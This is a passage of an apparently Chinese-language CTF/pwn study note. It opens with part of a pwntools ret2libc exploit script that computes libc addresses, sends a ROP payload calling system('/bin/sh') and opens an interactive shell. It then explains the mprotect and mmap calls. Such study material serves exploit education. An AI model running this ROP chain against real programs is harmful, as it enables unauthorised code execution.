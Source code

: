        libc_base = puts_libc - libc.dump('puts')
        system_addr = libc_base + libc.dump('system')
        str_bin_sh = libc_base + libc.dump('str_bin_sh')

        '''
        libc = ELF('./libc.so')
        libc_base = puts_libc - libc.sym['puts']
        system_addr = libc_base + libc.sym['system']
        str_bin_sh = libc_base + next(libc.search(b'/bin/sh'))
        '''

        sh.recvuntil(b'password?\n')
        payload = length*b'a' +  \
            p64(pop_rdi_ret) + p64(str_bin_sh) +  p64(system_addr) + p64(stop_gadget)
        pid = util.proc.pidof(sh)[0]
        print(pid)
        pause()
        sh.sendline(payload)
        sh.interactive()

## mprotect && mmap

首先是`mprotect`。

    #include <unistd.h>
    #include <sys/mmap.h>

    int mprotect(const void *start, size_t len, int prot);
    // start->起始地址
    // length->长度
    // prot 修改权限，有以下几个值
    // PROT_EXEC 可执行 值为4
    // PROT_READ 可读取 值为1
    // PROT_WRITE 可写入 值为2
    // PROT_NONE 不能存取

    // 函数将从start开始的，长度为len的内存区的保护属性修改为prot指定的值。
    // start必须是内存页的起始地址，len必须是页大小的整数倍。
    // 一页是4kb也就是0x1000个字节。

接下来是`mmap`。

    #include<sys/mman.h>

    void* mmap(void* start, size_t length, int prot, int flags, int fd, off_t offset);
    // start->要映射到的内存区域的起始地址，设置为0或NULL，表示由内核指定
    // length->要映射到的内存区域文件的大小
    // prot->表示映射区域的权限 PROT_EXEC PROT_READ PROT_WRITE PROT_NONE
    // flags->映射类型，比较复杂
    // fd->文件描述符
    // offset->被映射对象的起点

    // 函数将一个文件映射到内存区域的一片空间，内存空间和文件二者被修改了都会改变另一个，但不是立即更新。显式同步可以使用msync()。进程不需要read()或者write()便可以对文件进行修改。mmap没有分配空间，而是将文件映射到内存，要映射的长度在调用mmap()时就已经决定，无法增加长度。
